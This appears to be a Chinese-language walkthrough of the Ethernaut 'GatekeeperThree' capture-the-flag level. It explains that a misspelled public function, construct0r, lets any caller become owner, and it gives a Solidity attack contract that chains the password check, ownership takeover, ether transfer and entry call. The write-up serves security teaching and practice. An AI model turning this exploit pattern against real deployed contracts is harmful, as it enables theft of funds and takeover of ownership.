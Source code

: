 # GateKeeperThree

## Reference
[GateKeeperThree](https://ethernaut.openzeppelin.com/level/28)

[GateKeeperThree.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/28-GatekeeperThree/GatekeeperThree.sol)

[Ethereum-Creation-Code](https://www.rareskills.io/post/ethereum-contract-creation-code)

## 目标
成为 entrant 地址

## 分析
只是一个错误函数名称引起的错误,任何地址都可以成为owner
```solidity
    function construct0r() public {
        owner = msg.sender;
    }
```
## attack 合约
```solidity
contract AttackPassward {
    uint256 public password;

    SimpleTrick public trick;
    GatekeeperThree public gthree;

    constructor(SimpleTrick _trick, GatekeeperThree _gthree) payable {
        trick = _trick;
        gthree = _gthree;
    }

    function attackPassword() public {
        password = block.timestamp;
        trick.checkPassword(password);
        gthree.construct0r();
        gthree.getAllowance(password);
        address(gthree).call{value: 0.0011 ether}("");
        gthree.enter();
    }

    // receive() external payable {}
}
```
